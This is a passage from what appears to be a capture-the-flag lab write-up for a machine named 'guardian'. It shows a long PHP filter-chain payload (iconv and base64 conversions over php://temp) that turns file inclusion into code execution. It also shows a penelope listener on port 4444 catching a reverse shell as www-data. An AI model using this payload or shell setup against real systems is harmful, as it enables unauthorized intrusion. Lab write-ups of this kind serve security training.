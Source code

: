 ```bash
2|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Setup our kali server via [penelope](https://github.com/brightio/penelope).

```bash
└─$ penelope -p 4444                                                                                                            
[+] Listening for reverse shells on 0.0.0.0:4444 →  127.0.0.1 • 172.16.147.139 • 172.17.0.1 • 10.10.16.36
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```

Copy the output and paste and send it.

```bash
└─$ penelope -p 4444                                                                                                            
[+] Listening for reverse shells on 0.0.0.0:4444 →  127.0.0.1 • 172.16.147.139 • 172.17.0.1 • 10.10.16.36
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from guardian~10.129.101.248-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/guardian~10.129.101.248-Linux-x86_64/2025_09_01-09_15_08-425.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@guardian:~/portal.guardian.htb/admin$
```
